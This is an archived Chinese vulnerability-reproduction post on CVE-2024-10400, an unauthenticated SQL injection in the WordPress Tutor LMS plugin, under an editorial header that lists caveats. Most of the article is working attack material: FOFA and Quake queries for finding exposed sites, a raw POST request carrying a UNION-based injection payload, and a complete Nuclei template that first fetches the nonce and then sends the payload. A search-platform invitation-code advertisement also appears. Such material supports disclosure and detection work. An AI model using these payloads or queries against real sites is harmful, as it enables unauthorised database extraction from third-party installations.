





# 【漏洞复现】CVE-2024-10400

> 编号角色校订（2026-10-04）：按归档技术正文区分主讨论编号与背景引用，更新 `primary_identifiers` / `referenced_identifiers` 及旧字段角色。旧编号原值、状态与正文保持原样，变更前字段逐字保存在 `previous_*`；后文旧的角色待核说明应按当前字段阅读。这里的角色判读不等于官方分配核验或漏洞复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：WordPress Tutor LMS CVE-2024-10400 rating_filter SQLi
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：<=2.7.6与未认证AJAX nonce先读流程明确，完整HTTP/Nuclei有Wordfence精确报告/NVD；标题无产品需归类，已发布修复却无首修版本；1e0/13列UNION依测试schema版本，未解释数字过滤绕过根因源码
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. <=2.7.6与未认证AJAX nonce先读流程明确，完整HTTP/Nuclei有Wordfence精确报告/NVD
2. 标题无产品需归类，已发布修复却无首修版本
3. nonce不一定首页可得，需前端加载Tutor脚本/实际页面、匹配JSON格式和有效期，模板仅固定主页可能漏报
4. 1e0/13列UNION依测试schema版本，未解释数字过滤绕过根因源码
5. MD5marker+success比状态码判洞可靠，但静态数字可改唯一以避免响应污染，版本提取alt正则宽
6. 影响是读数据非该PoC证明RCE/改库，CVSS向量较吻合
7. 固定ContentLength需重算、邀请码/巨量表样式清理

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

混子Hacker  混子Hacker   2024-12-25 07:57  
  
<table><tbody><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><td data-colwidth="576" width="576" valign="top" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;visibility: visible;"><section style="margin-bottom: 0px;color: rgb(255, 255, 255);letter-spacing: 0.578px;text-align: center;-webkit-tap-highlight-color: transparent;outline: 0px;border-top-color: rgb(255, 255, 255);visibility: visible;"><strong style="font-family: inherit;font-size: 1em;letter-spacing: 0.578px;text-decoration: inherit;-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;color: rgb(217, 33, 66);visibility: visible;"><span leaf="">免责声明</span></span></strong></section><section style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;">请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不承担任何法律及连带责任。</span></section></td></tr></tbody></table>  
  
  
[   
漏洞简介   
]  
  
——    
平凡是生活的本色，不凡是生命的追求  
   
——  
  
CVE-2024-10400  
  
WordPress 的 Tutor LMS 插件在 2.7.6 及 2.7.6 之前的所有版本中存在通过 “rating_filter ”参数进行 SQL 注入的漏洞，原因是用户提供的参数未进行充分的转义处理，而且现有的 SQL 查询也未进行预编译。这使得未经认证的攻击者有可能在已有的查询中附加额外的 SQL 查询，从而从数据库中提取敏感信息。  
  
  
  
<table><tbody><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;visibility: visible;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-color: windowtext;visibility: visible;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,{&#34;tagName&#34;:&#34;section&#34;,&#34;attributes&#34;:{&#34;style&#34;:&#34;text-align: center;&#34;},&#34;namespaceURI&#34;:&#34;&#34;}]" style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;">影响范围</span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;font-size: 14px;visibility: visible;"><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-family: &#34;Microsoft YaHei UI&#34;;visibility: visible;"><span leaf=""><br/></span></span></strong></span></p></td><td colspan="2" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-color: windowtext;visibility: visible;"><section style="-webkit-tap-highlight-color: transparent;outline: 0px;text-indent: 2em;visibility: visible;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;font-family: 微软雅黑, &#34;sans-serif&#34;;font-size: 14px;visibility: visible;"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;">Tutor LMS &lt;= 2.7.6</span></span></section></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:&#34;center&#34;,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;">漏洞评分</span><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></strong></p></td><td colspan="2" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">7.5</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;color: rgb(255, 0, 0);"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;"></span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td rowspan="3" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:&#34;center&#34;,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;">利用条件</span><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></strong></p></td><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">用户认证</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></p></td><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">无</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;color: rgb(0, 0, 0);"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><br/></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;"></span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">利用难度</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></p></td><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">低</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;color: rgb(0, 0, 0);"><span leaf=""><br/></span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><section style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">所需权限</span></span></section></td><td valign="middle" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><section style="margin: -14px 16px 0px;letter-spacing: 0.578px;text-wrap: wrap;outline: 0px;border-style: none;border-top-color: rgb(178, 178, 178);line-height: 1.4;"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">无</span></span></section></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:&#34;center&#34;,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;">解决方案</span><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></strong></p></td><td colspan="2" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">已发布</span></span></p></td></tr></tbody></table>  
  
  
漏洞信息  
  
**混子Hacker**  
  
**01**  
  
资产测绘  
  
```
fofa: body="/wp-content/plugins/tutor/"
Quake：body:"/wp-content/plugins/tutor/" 

# 风里雨里，我都在quake等你。个人中心输入邀请码“lnBNF0”你我均可获得5,000长效积分哦，地址 quake.360.net
```  
  
  
  
  
  
  
  
**混子Hacker**********  
  
**02**  
  
漏洞复现  
  
  
  
1、访问首页获取，_tutor_nonce值  
  
  
  
2、带上_tutor_nonce值访问/wp-admin/admin-ajax.php  
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 166

action=load_filtered_instructor&_tutor_nonce=faf2dbeb1c&rating_filter=1e0+and+1=0+Union+select+111,2222,3333,4,5,6,7,8,9,concat(md5(999999999),version()),11,12,14--+-
```  
  
  
  
  
  
  
  
**混子Hacker**********  
  
**03**  
  
Nuclei Poc  
  
  
```
id: CVE-2024-10400

info:
  name: Tutor LMS <= 2.7.6 - SQL Injection
  author: iamnoooob,rootxharsh,pdresearch
  severity: high
  description: |
    The Tutor LMS plugin for WordPress is vulnerable to SQL Injection via the ‘rating_filter’ parameter in all versions up to, and including, 2.7.6 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.
  reference:
    - https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/tutor/tutor-lms-276-unauthenticated-sql-injection-via-rating-filter
    - https://nvd.nist.gov/vuln/detail/CVE-2024-10400
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
    cvss-score: 7.5
    cve-id: CVE-2024-10400
    cwe-id: CWE-89
    cpe: cpe:2.3:a:themeum:tutor_lms:*:*:*:*:*:wordpress:*:*
  metadata:
    verified: true
    max-request: 2
    vendor: themeum
    product: tutor_lms
    framework: wordpress
    shodan-query: html:"/wp-content/plugins/tutor/"
    fofa-query: body="/wp-content/plugins/tutor/"
  tags: cve,cve2024,tutor-lms,lms,sqli

variables:
  num: '999999999'

http:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}

    extractors:
      - type: regex
        part: body
        internal: true
        name: nonce
        group: 1
        regex:
          - '"_tutor_nonce":"([a-z0-9]+)"'

  - raw:
      - |
        POST /wp-admin/admin-ajax.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        action=load_filtered_instructor&_tutor_nonce={{nonce}}&rating_filter=1e0+and+1=0+Union+select+111,2222,3333,4,5,6,7,8,9,concat(md5({{num}}),version()),11,12,14--+-

    matchers:
      - type: word
        part: body
        words:
          - '{{md5(num)}}'
          - '"success":true'
        condition: and

    extractors:
      - type: regex
        part: body
        group: 1
        regex:
          - 'alt=\\".*?:(.*?)\\"'
```  
  
  
  
  
<<<    
END   
>>>  
  
  
  
原创文章｜转载请附上原文出处链接  
  
更多漏洞｜关注作者查看  
  
作者｜混子Hacker  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
